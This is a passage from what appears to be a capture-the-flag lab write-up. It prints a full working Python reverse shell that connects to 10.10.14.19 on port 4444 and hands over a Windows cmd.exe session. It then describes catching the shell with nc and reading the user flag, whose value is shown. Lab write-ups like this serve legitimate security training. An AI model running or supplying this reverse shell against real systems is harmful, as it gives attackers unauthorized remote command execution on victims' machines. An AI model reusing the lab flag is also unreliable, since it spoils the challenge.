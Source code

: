 ```python
import os,socket,subprocess,threading;

def s2p(s, p):
    while True:
        data = s.recv(1024)
        if len(data) > 0:
            p.stdin.write(data)
            p.stdin.flush()

def p2s(s, p):
    while True:
        s.send(p.stdout.read(1))

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.19",4444))

p=subprocess.Popen(["\windows\system32\cmd.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)

s2p_thread = threading.Thread(target=s2p, args=[s, p])
s2p_thread.daemon = True
s2p_thread.start()

p2s_thread = threading.Thread(target=p2s, args=[s, p])
p2s_thread.daemon = True
p2s_thread.start()

try:
    p.wait()
except KeyboardInterrupt:
    s.close()
```

A `nc` was setup and this landed us a user shell as the jupiter user

![](writeupfiles/Untitled%206.png)

The user flag was obtained and submitted

```python
C:\>type C:\users\Jupiter\desktop\user.txt
type C:\users\Jupiter\desktop\user.txt
16a937efbfd2498109579fc0f8b60253
```
